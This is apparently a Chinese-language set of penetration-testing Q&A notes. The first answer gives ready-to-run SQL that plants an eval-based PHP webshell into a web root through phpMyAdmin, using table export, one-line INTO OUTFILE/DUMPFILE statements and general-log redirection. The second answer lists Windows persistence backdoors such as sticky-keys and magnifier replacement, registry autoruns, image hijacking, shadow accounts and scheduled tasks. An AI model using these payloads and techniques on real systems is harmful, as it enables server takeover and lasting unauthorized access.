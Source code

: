 ### 问：phpmyadmin 写 sehll 的方法

答：

一、常规导入 shell 的操作

> 创建数据表导出 shell
> 
> CREATE TABLE `mysql`.`shadow9` (`content` TEXT NOT NULL);
> 
> INSERT INTO `mysql`.`shadow9` (`content`) VALUES (‘<?php @eval($_POST[pass]);?>’);
> 
> SELECT `content` FROM `shadow9` INTO OUTFILE ‘C:\\phpStudy\\WWW\\90sec.php’;
> 
> DROP TABLE IF EXISTS `shadow9`;

二、一句话导出 shell：

```
select '<?php @eval($_POST[pass]);?>' into outfile 'c:/phpstudy/www/90sec.php';  select '<?php @eval($_POST[pass]);?>' into outfile 'c:\\phpstudy\\www\\90sec.php';select '<?php @eval($_POST[pass]);?>' into dumpfile 'c:\\phpstudy\\www\\bypass.php';
```

三、日志备份获取 shell

```
show global variables like "%genera%";          //查询general_log配置set global general_log='on';              //开启general log模式SET global general_log_file='D:/phpStudy/WWW/cmd.php';    //设置日志文件保存路径SELECT '<?php phpinfo();?>';              //phpinfo()写入日志文件set global general_log='off';              //关闭general_log模式
```

### 问：权限维持的方法

答：

留自启动后门方法很多, 大多数都添加到服务, 加注册表 加启动项，

windows：

> 1. 替换系统文件类 (shift 后门, 放大镜后门)
> 
> 2. 修改注册表类
> 
> 自启动项、屏幕保护程序注册表、用户登陆初始化、登录脚本、映像劫持、影子账户、AppCertDlls 注册表项、AppInit_DLLs 注册表项、文件关联、用户登陆初始化、xx.Netsh Helper DLL
> 
> 3. 文件类
> 
> 自启动文件夹、office Word StartUp 劫持
> 
> 4. 计划任务
> 
> schtasks 、WMI、bitsadmin
